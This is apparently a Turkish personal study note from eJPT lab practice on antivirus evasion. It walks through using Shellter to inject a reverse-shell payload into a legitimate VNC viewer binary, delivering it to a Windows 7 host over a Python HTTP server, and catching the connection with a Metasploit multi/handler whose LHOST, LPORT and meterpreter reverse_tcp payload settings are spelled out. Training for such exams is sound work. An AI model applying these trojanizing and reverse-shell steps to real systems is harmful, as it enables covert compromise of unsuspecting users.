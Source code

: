 
---
![[Pasted image 20240404202644.png]]
![[Pasted image 20240404203745.png]]
### Shellter ı açtık ve bizden operation mod seçmemizi istedi.
## Auto --> A 'yı seçtik

### PE target --> Portable Executable Target

![[Pasted image 20240404204039.png]]
### Bu şekilde programın orjinalinin backup'ını aldı ve shellter_backups bölümüne yerleştirdi.

![[Pasted image 20240404204340.png]]
## Burası çok önemli bu binary kendi işlemlerini yürütsünmü kendisi yukleme yapar gibi çalışsın mı bunu soruyor.

## Payloads
![[Pasted image 20240404204558.png]]
### Bize şimdi payload nasıl olsun bunu soruyor --->> eğer biz daha önceden msfvenom ile bir payload hazırlamışsak CUSTOM modu seç diyor. 
## Bu durumda biz bu listedekinden seçtik L  ve sonra 1 'i işaretledik

### buradan sonra lport lhost'u ayarladık ve artık bizim eJPT içindeki AV bypass klasörü içindeki binary'miz malicious bir binary.

---

##### python3 http server ile win 7 içine attık bu vcnviewer'ı ve multihandler açıp dinlemeye başladık. karşı taraf binary çalıştırdığında herşey normal çalıştı ama bize shell geldi.

# MULTI/HANDLER DİKKAT
## set LPORT 1234
## set LHOST 10.0.2.4
### set PAYLOAD windows/meterpreter/reverse_tcp

---